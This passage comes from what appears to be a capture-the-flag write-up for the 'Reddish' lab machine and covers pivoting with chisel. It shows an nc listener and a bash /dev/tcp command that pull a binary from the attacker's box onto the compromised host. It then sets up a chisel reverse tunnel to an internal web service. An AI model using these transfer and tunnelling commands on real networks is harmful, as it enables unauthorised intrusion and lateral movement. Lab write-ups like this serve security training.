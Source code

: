 Let’s try to use chisel for port forwarding since ssh is not available. First download chisel on host. And shrink it down as small as possible

```bash
git clone <repo>
go build
go build -ldflags="-s -w"
upx brute chisel
```

Now start the listening port to transfer the file

```bash
nc -lnvp 1234 < /home/billy/tools/chisel/chisel
```

Now grab the binary

```bash
bash -c "cat < /dev/tcp/10.10.14.132/1234 > /tmp/chisel"

md5sum  /home/billy/tools/chisel/chisel
md5sum /tmp/chisel   #they are the same
```

Chisel is a reverse pivot, our attack box acts as the server

![image.png]({{ site.baseurl }}/assets/reddish/image%202.png)

Now to set up chisel:

```bash
On our attack host:
./chisel server -p 8110 -reverse -v

On the pivot host:
/tmp/chisel client 10.10.14.132:8110 R:127.0.0.1:8111:172.19.0.3:80
```

- There was an issue with the GLIB_C with the latest version, went and downloaded the latest 2018 amd version then used upx on it to compress. It still worked.

Now we can browse from our attack box

```bash
http://localhost:8111
```

![image.png]({{ site.baseurl }}/assets/reddish/image%203.png)

We also find a backup function but however it the web does not load:

```bash
function backupDatabase() {
								$.ajax({
										url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=...",
										cache: false,
										dataType: "text",
										success: function (data) {
											console.log("Database saved:", data);
										},
										error: function () {
										}
								});
						}
```
